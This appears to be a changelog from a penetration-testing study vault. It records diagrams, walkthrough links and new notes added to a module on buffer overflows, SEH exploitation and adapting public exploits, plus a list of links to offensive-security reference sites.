**Stage 1 (solo enrichment):** 8 Mermaid diagrams added (stack overflow mechanics, Sync Breeze buffer anatomy, the off-by-one bug, CMS Made Simple's request flow, elFinder's exploit chain, Easy Chat Server's SEH buffer layout and exception-dispatch flow, plus a whole-module overview), 20 screenshot placeholders total (was 8), verified links added (Corelan parts 1 and 3, a Sync Breeze OSCP-style YouTube walkthrough, the OnSecurity Easy Chat Server writeup, a TryHackMe elFinder writeup). Also fixed three stray `[[wikilinks]]` that pointed at Claude-memory filenames rather than real vault notes.

**Stage 2 (joint hub-doc sync):** two new areas created across Command Appendix/Breakdowns/Decision Tree, **Fixing Exploits** (cross-compiling, wine, exploit-adaptation mechanics) and **Buffer Overflow & Memory Corruption** (the vault's first real BOF content: SEH mechanics, off-by-one bugs, msfvenom for BOF payloads), plus a new **File Upload Attacks (Breakdowns)** area for the elFinder filename-injection teardown. Existing areas extended: Shells & Payloads (Appendix, msfvenom cross-link), Locating Public Exploits (Breakdowns, resolved an old outstanding TODO), File Upload Attacks and Reconnaissance & Enumeration (Decision Tree, two new symptom entries), Feroxbuster (Modern Tooling, new cross-link). Both Linux and Windows Methodology got a new "Fixing a Public Exploit" foothold-phase step. Module note itself gained a Command Reference section and a Related Boxes section (verified: **Brainpan** on VulnHub for BOF practice, no confirmed box found for the web-exploit-fixing half after a genuine search).
## External Resources

- [HackTricks - Pentesting Index](https://hacktricks.wiki/en/index.html)
- [PayloadsAllTheThings - Methodology and Resources](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
- [GTFOBins](https://gtfobins.github.io/) for Unix binary abuse where applicable
- [RevShells](https://www.revshells.com/) for shell payloads where applicable
- [CyberChef](https://gchq.github.io/CyberChef/) for encoding and decoding
- [ippsec.rocks](https://ippsec.rocks/) for practical walkthrough searches
